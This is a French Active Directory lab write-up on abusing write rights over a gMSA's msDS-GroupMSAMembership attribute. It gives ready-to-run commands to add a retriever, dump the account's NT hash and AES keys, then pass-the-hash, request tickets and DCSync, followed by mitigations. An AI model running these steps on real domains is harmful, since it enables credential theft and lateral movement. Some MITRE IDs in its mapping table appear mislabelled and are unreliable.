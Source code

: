 # Abus des gMSA via msDS-GroupMSAMembership

***

### <mark style="color:blue;">📂</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Définition :**</mark>

Un **gMSA (Group Managed Service Account)** est un compte AD spécial, utilisé pour exécuter des services avec des mots de passe gérés automatiquement par les DC.\
Leur mot de passe peut être **lu uniquement par des principaux autorisés** via l’attribut :

```
msDS-GroupMSAMembership
```

***

### <mark style="color:blue;">⚠️</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Problème :**</mark>

Si un utilisateur possède le droit `WriteProperty` sur cet attribut, **il peut s’ajouter lui-même** à la liste des comptes autorisés à récupérer le mot de passe du gMSA.\
💥 Cela permet ensuite d’**extraire les credentials Kerberos (NT hash, AES keys)** et d’**utiliser le compte comme pivot**.

***

### <mark style="color:blue;">🧪</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Conditions requises :**</mark>

| Condition                                    | Présent                            |
| -------------------------------------------- | ---------------------------------- |
| Un gMSA existant dans AD                     | ✅ `Haze-IT-Backup$`                |
| Un utilisateur avec `WriteProperty` sur gMSA | ✅ `mark.adams` via `gMSA_Managers` |
| Accès WinRM ou shell PowerShell              | ✅ Evil-WinRM actif                 |
| BloodHound pour valider les ACLs             | ✅ Utilisé avec `bloodhound-python` |

***

### <mark style="color:blue;">🔁</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Étapes d’exploitation réelles :**</mark>

**1. 🎯 Enumération du droit**

```powershell
Get-DomainObjectACL -ResolveGUIDs -Identity "Haze-IT-Backup"
```

**2. ✍️ Ajout du compte dans les retrieveurs**

```powershell
$gMSA = "Haze-IT-Backup"
$PrincipalToAdd = "mark.adams"
$original = Get-ADServiceAccount -Properties PrincipalsAllowedToRetrieveManagedPassword $gMSA |
            Select-Object -ExpandProperty PrincipalsAllowedToRetrieveManagedPassword
$new = $original + $PrincipalToAdd
Set-ADServiceAccount -PrincipalsAllowedToRetrieveManagedPassword $new $gMSA
```

**3. 🔓 Extraction des secrets du gMSA**

```bash
python3 gMSADumper.py -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb
```

➡️ Tu récupères :

```
Haze-IT-Backup$:::<NT hash>
aes256: <AES256 key>
aes128: <AES128 key>
```

***

### <mark style="color:blue;">🧠</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Utilisation du compte gMSA :**</mark>

**🔥 Pass-the-Hash**

```bash
evil-winrm -u Haze-IT-Backup$ -H <nt hash> -i <victim-ip>
```

**🧪 Pass-the-Ticket (Rubeus)**

```powershell
Rubeus.exe asktgt /user:Haze-IT-Backup$ /rc4:<nt hash> /domain:haze.htb
```

**🔓 DCSync (si droits élevés)**

```bash
secretsdump.py haze.htb/Haze-IT-Backup$@DC01.haze.htb -hashes :<nt hash>
```

***

#### <mark style="color:green;">🖼️</mark> <mark style="color:green;"></mark><mark style="color:green;">**Diagramme ASCII**</mark>

```
[ mark.adams ]
     |
     | Member of
     v
[ gMSA_Managers ]
     |
     | WriteProperty on
     v
[ Haze-IT-Backup$ (gMSA) ]
     |
     | + Add to PrincipalsAllowedToRetrieveManagedPassword
     v
[ gMSADumper → NT hash, AES keys ]
     |
     v
[ Auth / pivot / lateral movement ]
```

***

#### <mark style="color:green;">💥</mark> <mark style="color:green;"></mark><mark style="color:green;">**Impact**</mark>

| Impact potentiel                                                    | Description                       |
| ------------------------------------------------------------------- | --------------------------------- |
| 🎯 Récupération d’un compte service                                 | Accès au NT hash + clefs Kerberos |
| 🧬 Utilisable pour pass-the-hash/ticket                             | Auth via Haze-IT-Backup$          |
| 🛠️ Possible élévation jusqu’à DA (si le gMSA a des droits étendus) |                                   |

***

#### <mark style="color:green;">🔒</mark> <mark style="color:green;"></mark><mark style="color:green;">**Mitigation**</mark>

| Contre-mesure                                    | Explication                                    |
| ------------------------------------------------ | ---------------------------------------------- |
| 🔐 Restreindre les ACLs sur les objets gMSA      | Aucun WriteProperty pour users non privilégiés |
| 👀 Monitorer l’usage de `Set-ADServiceAccount`   | Activité anormale = alerte                     |
| 📜 Journaliser les lectures de mot de passe gMSA | Pour traçabilité SIEM                          |
| 🧼 Révoquer les retrieveurs inutiles             | Minimise la surface d’attaque                  |

***

#### <mark style="color:green;">📌</mark> <mark style="color:green;"></mark><mark style="color:green;">**MITRE ATT\&CK Mapping**</mark>

| ID            | Nom                              |
| ------------- | -------------------------------- |
| **T1098.004** | Account Manipulation: gMSA Abuse |
| **T1550.002** | Use of Pass-the-Hash             |
| **T1558.003** | Steal or Forge Kerberos Tickets  |

***

### <mark style="color:blue;">✅ Résumé final</mark>

| Élément               | Valeur                                        |
| --------------------- | --------------------------------------------- |
| Compte abusé          | `Haze-IT-Backup$` (gMSA)                      |
| Compte attaquant      | `mark.adams`                                  |
| Droit exploité        | `WriteProperty` sur `msDS-GroupMSAMembership` |
| Outil final           | `gMSADumper.py`                               |
| Credentials récupérés | NT hash, AES128/256                           |
| Exploitation possible | WinRM, Kerberos, Pivot                        |

***
